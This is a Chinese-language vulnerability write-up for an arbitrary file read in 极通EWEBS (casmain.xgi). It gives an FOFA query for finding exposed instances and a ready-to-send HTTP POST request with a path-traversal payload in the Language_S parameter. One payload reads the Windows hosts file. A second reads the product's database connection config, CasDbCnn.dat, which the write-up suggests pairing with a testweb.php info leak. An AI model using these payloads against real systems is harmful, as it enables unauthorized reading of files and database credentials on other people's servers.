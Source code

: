 # 极通EWEBS casmain.xgi 任意文件读取漏洞

## 漏洞描述

极通EWEBS casmain.xgi 任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>极通EWEBS</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="新软科技-极通EWEBS"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210615125923544.png)



漏洞请求包为

```plain
POST /casmain.xgi HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=923b86fa90ce1e14c82d4e36d1adc528; CookieLanguageName=ZH-CN
Content-Length: 57

Language_S=../../../../windows/system32/drivers/etc/hosts
```



![img](../../../.vuepress/public/img/image-20210615130137932.png)



可以配合 testweb.php 信息泄露读取敏感信息

```plain
Language_S=../../Data/CONFIG/CasDbCnn.dat
```

